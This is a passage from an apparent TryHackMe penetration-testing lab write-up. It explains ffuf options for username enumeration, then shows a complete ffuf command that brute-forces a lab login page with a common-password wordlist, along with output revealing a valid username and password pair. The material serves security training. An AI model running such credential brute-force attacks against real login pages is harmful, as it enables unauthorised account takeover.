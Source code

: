 In the above example, the `-w` argument selects the file's location on the computer that contains the list of usernames that we're going to check exists. The `-X` argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. The `-d`
argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to **FUZZ**. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The `-H` argument is used for adding additional headers to the request. In this instance, we're setting the `Content-Type` so the web server knows we are sending form data. The `-u` argument specifies the URL we are making the request to, and finally, the `-mr` argument is the text on the page we are looking for to validate we've found a valid username.

### Brute Force

Using the validUsernames.txt file we generated in the previous task, we can now use this to attempt a brute force attack on the login page (`http://<IP>/customers/login`).

```bash
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ ffuf -w validUsernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://<IP>/customers/login -fc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://<IP>/customers/login
 :: Wordlist         : W1: /home/abu/Documents/TryHackMe/Rooms/JrPenTester/validUsernames.txt
 :: Wordlist         : W2: /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=W1&password=W2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 200
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 217ms]
    * W1: steve
    * W2: thunder
:: Progress: [505/505] :: Job [1/1] :: 156 req/sec :: Duration: [0:00:03]:: Errors: 0 ::
```
